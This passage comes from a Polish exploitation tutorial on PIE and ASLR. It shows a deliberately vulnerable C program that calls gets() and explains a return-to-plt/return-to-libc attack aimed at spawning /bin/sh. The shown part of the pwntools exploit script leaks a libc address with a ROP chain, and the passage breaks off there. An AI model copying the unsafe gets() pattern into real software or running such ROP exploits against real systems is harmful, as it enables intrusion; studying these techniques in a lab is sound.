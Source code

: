 ### Zastosowanie  w praktyce <a name="zastosowanie_pie"></a>

Ponieważ prezentacja PIE bez włączonego ASLR nie miałaby zbytnio sensu, to zacznę od eksploatacji programu skompilowanego bez obsługi PIE, lecz z włączonym w systemie ASLR. Dodatkowym utrudnieniem jest to, że program został skompilowany na procesory 64-bitowe, czyli argumenty do funkcji przekazywane są za pomocą rejestrów. W celu eksploitacji tego programu zastosuję, wcześniej wspomniany, atak return-to-plt (w połączeniu z return-to-libc) i będzie on polegał na wykorzystaniu sekcji PLT, jako punktu odniesienia, dzięki któremu będzie można wyliczyć adres biblioteki libc. 

<font size=1>

```c
#include <stdio.h>

void vuln() {
  puts("It never gets old");
  char buffer[64];
  gets(buffer);
}

int main() {
  vuln();
  return 0;
}
```

</font>

Poniższy eksploit działa w dwóch etapach, a jego celem wywołanie funkcji `system` z parametrem `/bin/sh`. Aby było to możliwe należy najpierw uzyskać adres biblioteki libc. Wiadomo, że w wypadku programu skompilowanego bez PIE, offset do sekcji `PLT` jest znany i niezmienny. Jeśli dodatkowo uda się ujawnić adres jakiejś funkcji (z biblioteki libc) w trakcie działania programu, to można z tych danych wyliczyć adres biblioteki libc. Dlatego zadaniem pierwszego etapu eksploitu jest wypisanie adresu funkcji `gets`, a następnie przekierowanie wykonywania programu ponownie do funkcji `main`. Teraz od uzyskanego adresu wystarczy odjąć odczytany z pliku ELF offset. Znając już adres biblioteki libc, eksploit przechodzi do drugiego etapu, w którym wykonuje atak return-to-libc poprzez nadpisanie adresu powrotu funkcji `vuln`.  Podczas pisania tego eksploitu długo nie mogłem znaleźć powodu, dla którego na ostatnim etapie, gdy wołana była funkcja `system`, program zwracał `SIGSEGV`. Okazało się, że na Ubuntu, w trakcie wołania funkcji `do_system` wykonywana jest dodatkowa instrukcja `movaps`, której zadaniem jest wczytanie danych na stos. Nie było by w tym nic specjalnego, gdyby nie to, że wymaga ona, aby stos był wyrównany do 16 bajtów.

<font size=1>

```python
import sys
from pwn import *

# debuggowanie
#p = gdb.debug('./vuln-64', ''  break vuln   c''')
#context.log_level = 'DEBUG'

##########  przygotowanie  ###########
PADDING_SIZE = 72                            # buffer+padding - tyle zeby nadpisac rbp na stosie
PATH_TO_BINARY = sys.argv[1]                 # sciezka do eksploitowanego programu
elf = context.binary = ELF(PATH_TO_BINARY)
libc = elf.libc
p = process()

##############  etap 1  ##############
p.recvline()
rop = ROP(elf)
rop.raw('A'*PADDING_SIZE)
rop.raw(rop.rdi)
rop.raw(elf.got['gets'])
rop.raw(elf.plt['puts'])
```